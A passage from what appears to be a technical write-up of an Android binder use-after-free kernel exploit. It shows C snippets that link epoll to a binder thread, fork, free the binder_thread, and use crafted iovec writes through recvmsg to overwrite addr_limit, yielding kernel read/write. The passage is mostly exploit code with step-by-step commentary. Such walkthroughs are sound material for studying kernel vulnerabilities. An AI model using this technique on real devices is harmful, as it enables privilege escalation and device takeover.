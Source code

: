 Third iovec will be used to override `addr_limit`. `iov_base: 0x42424242` will be replace with `addr_limit_ptr` address in `child` process. It will go over more about this down the road.

### Linking binder_thread and eppoll_event

```c
epoll_add(epfd, binder_fd);
```

Connecting structure together. Explained at [Linking epitem -> epoll_entry -> binder_thread](#linking-epitem---epoll_entry---binder_thread)

### Forking

```c
pid_t child_pid = fork();
```

We will now have `child` and `parent` happening at same time. But first we will look at `parent` because `child` will `sleep(2)`.

#### (Parent) Free binder_thread and block via recvmsg

```c
binder_thread_exit(binder_fd);

// Should recv sum of all iov_len
ssize_t bytes_received = recvmsg(sock_fd[0], &message, MSG_WAITALL);

wait(nullptr);
```

Frees `binder_thread` and waits for all `iovecs` to be `write` from `child` process. Currently, it processed `iovecs[10]` which is junk data with `iov_len` of `1`.

#### (Child) Unlink then write to `iovecs[11]`

```c
static uint64_t override_binder_thread_wait[] = {
0x1, // iovecs[10].iov_len
0x41414141, // iovecx[11].iov_base
0x8 + 0x8 + 0x8 + 0x8, // iovecx[11].iov_len
addr_limit_ptr, // iovecs[12].iov_base
0xFFFFFFFFFFFFFFFE // addr_limit value. It will be written to addr_limit_ptr above
};
```

```c
sleep(2);
epoll_del(epfd, binder_fd);

write(sock_fd[1], override_binder_thread_wait, sizeof(override_binder_thread_wait));

exit(EXIT_SUCCESS);
```

It is similar to [(Child Process) Cause unlinking](#child-process--cause-unlinking). But we will `write` to `recvmsg` after unlinking and `iovecs` will look something like below after we `write`.
